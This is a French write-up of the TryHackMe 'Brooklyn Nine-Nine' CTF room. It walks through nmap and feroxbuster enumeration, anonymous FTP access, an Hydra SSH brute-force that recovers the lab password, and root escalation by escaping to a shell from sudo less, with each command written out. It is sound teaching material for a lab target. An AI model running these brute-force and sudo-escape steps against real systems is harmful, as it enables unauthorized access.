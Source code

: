 ```yaml
---
title: "Write-up : TryHackMe - Brooklyn Nine-Nine"
date: 2025-04-22T09:00:00+02:00
draft: false
author: "AntoineWHR"
tags: ["TryHackMe", "CTF", "Linux", "FTP", "SSH", "Sudo", "Less"]
categories: ["WriteUps"]
comment: true
description: "Solution pas à pas du challenge TryHackMe Brooklyn Nine-Nine, de la reconnaissance à l'accès root."
---
```


<!--more-->

# **Write-up : TryHackMe - Brooklyn Nine-Nine**

{{< admonition info "Informations sur la Room" >}}
*   **Nom :** Brooklyn Nine-Nine
*   **Plateforme :** TryHackMe
*   **Lien :** [https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)
*   **Difficulté Annoncée :** Facile (Easy)
*   **Objectif :** Obtenir les flags `user.txt` et `root.txt`.
{{< /admonition >}}

## **Introduction**

Ce challenge nous plonge dans l'univers de la série Brooklyn 99. Notre mission est de compromettre le serveur utilisé par l'équipe et de récupérer les flags utilisateur et root, en exploitant probablement quelques faiblesses laissées par nos personnages préférés.

## **Phase 1 : Reconnaissance & Énumération**

### **1. Scan des Ports (Nmap)**

Comme toujours, commençons par un scan Nmap pour identifier les services exposés sur la machine cible.

```bash
nmap -sC -sV <IP_SERVEUR>
# -sC: Utilise les scripts Nmap par défaut
# -sV: Tente de déterminer la version des services
```

![](/images/nmap1.png)

{{< admonition note "Résultats Clés du Scan Nmap" >}}
Le scan révèle trois ports ouverts principaux :

*   **Port 21 (FTP) :** vsftpd - Permet la connexion anonyme (`Anonymous FTP login allowed`). C'est une piste prioritaire !
*   **Port 22 (SSH) :** OpenSSH
*   **Port 80 (HTTP) :** Apache
{{< /admonition >}}

### **2. Exploration FTP**

La possibilité de connexion anonyme sur le FTP est une piste intéressante. Connectons-nous :

```bash
ftp -p <IP_SERVEUR> <PORT>
# Nom : Anonymous
# Mot de passe : <laisser vide>
```

Une fois connecté, on liste les fichiers et on trouve la note : `note_to_jake.txt`. Téléchargeons-la (`get note_to_jake.txt`) et examinons son contenu (`cat note_to_jake.txt`).

![](/images/ftp2.png)

{{< admonition tip "Indice Crucial de la Note FTP" >}}
La note mentionne que Jake a un mot de passe très faible. (ça lui ressemble bien)
C'est une information capitale pour la suite !
{{< /admonition >}}

### **3. Exploration Web (HTTP)**

Avant de tenter le brute-force, jetons un œil au serveur web sur le port 80. La page d'accueil par défaut d'Apache ne révèle rien d'immédiat. Utilisons `feroxbuster` (ou `gobuster`/`dirb`) pour chercher des répertoires ou fichiers cachés.

```bash
feroxbuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP_SERVEUR>/
# -w : Spécifie la wordlist
# -u : L'URL cible
```

Malgré l'énumération web, aucun répertoire ou fichier intéressant n'a été découvert lors de cette étape.

## **Phase 2 : Exploitation - Accès Initial (User Flag)**

### **Brute-force SSH avec Hydra**

Forts de l'indice trouvé dans la note FTP ("mot de passe très simple" pour l'utilisateur "jake"), nous allons tenter une attaque par brute-force sur le service SSH (port 22) en utilisant Hydra. Nous utiliserons `rockyou.txt`, une wordlist très commune, en espérant y trouver le mot de passe faible.

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<IP_SERVEUR>/ -f
# -l jake : Spécifie le nom d'utilisateur cible
# -P /usr/share/wordlists/rockyou.txt : Spécifie le fichier de mots de passe
# ssh://<IP_SERVEUR>/ : Spécifie le service et l'hôte cible
# -f : Arrête Hydra dès qu'un mot de passe valide est trouvé
```

![](/images/hydra3.png)

Succès ! Hydra trouve rapidement le mot de passe : `987654321`.

### **Connexion SSH et Flag Utilisateur**

Connectons-nous maintenant en SSH avec les identifiants trouvés :

```bash
ssh jake@<IP_SERVEUR>
# Entrer le mot de passe : 987654321
```

Une fois connecté, nous cherchons le flag utilisateur (`user.txt`). Après un peu d'exploration (ou en suivant les conventions habituelles), on le trouve dans le répertoire `/home/holt`. Clin d'œil amusant à la série !

```bash
ls /home/holt/
cat /home/holt/user.txt
```

![](/images/ssh4.png)

**Flag Utilisateur Obtenu !**

---

## **Phase 3 : Élévation de Privilèges (Root Flag)**

### **Vérification des Privilèges Sudo**

Maintenant que nous avons un accès en tant que `jake`, cherchons comment devenir `root`. Une des premières commandes à vérifier est `sudo -l`, qui liste les commandes que l'utilisateur actuel peut exécuter avec `sudo`.

```bash
sudo -l
```

{{< admonition warning "Résultat Sudo - Porte Ouverte !" >}}
La sortie indique que l'utilisateur `jake` peut exécuter la commande `/usr/bin/less` en tant que `root` sans mot de passe (`NOPASSWD`). C'est une faille de configuration classique !
```text
User jake may run the following commands on :
    (ALL : ALL) NOPASSWD: /usr/bin/less
```
{{< /admonition >}}

### **Exploitation via `less` (GTFOBins)**

Certains binaires Linux, même ceux qui semblent inoffensifs comme `less` (un paginateur de texte), peuvent être détournés pour obtenir un shell s'ils sont exécutés avec des privilèges élevés. Le site [GTFOBins](https://gtfobins.github.io/) est une ressource fantastique pour trouver de telles techniques.

En cherchant `less` sur GTFOBins, nous trouvons une section "Sudo".

{{< admonition tip "Technique d'Exploitation `less` (GTFOBins)" >}}
La technique est simple :
1.  Exécuter `less` via `sudo` sur n'importe quel fichier (par exemple `/etc/profile`).
2.  Une fois dans l'interface de `less`, taper `!/bin/sh` (ou `!/bin/bash`). Le `!` permet d'exécuter une commande shell depuis `less`.

Appliquons cela :
```bash
sudo less /etc/profile
```
Puis, dans `less`, tapez :
```sh
!/bin/sh
```
Appuyez sur Entrée.
{{< /admonition >}}

### **Accès Root et Flag Root**

Nous sommes maintenant `root`. Il ne reste plus qu'à récupérer le flag final, généralement situé dans `/root/root.txt`.

```bash
# cd /root
# ls
root.txt
# cat root.txt
```

![](/images/root5.png)

**Flag Root Obtenu ! Challenge Terminé !**

## **Conclusion**

Ce challenge "Brooklyn Nine-Nine" était une excellente introduction aux concepts de base du CTF :

1.  **Énumération :** Scan de ports (Nmap), découverte de services (FTP anonyme, SSH, HTTP), énumération web (feroxbuster).
2.  **Exploitation :** Utilisation d'indices (note FTP) pour cibler une attaque (brute-force SSH avec Hydra).
3.  **Élévation de Privilèges :** Vérification des permissions `sudo` (`sudo -l`) et exploitation d'une mauvaise configuration via un binaire autorisé (exploitation de `less` via GTFOBins).

C'était une room amusante et bien thématisée, parfaite pour les débutants.

> PS : Jake change de mdp stp
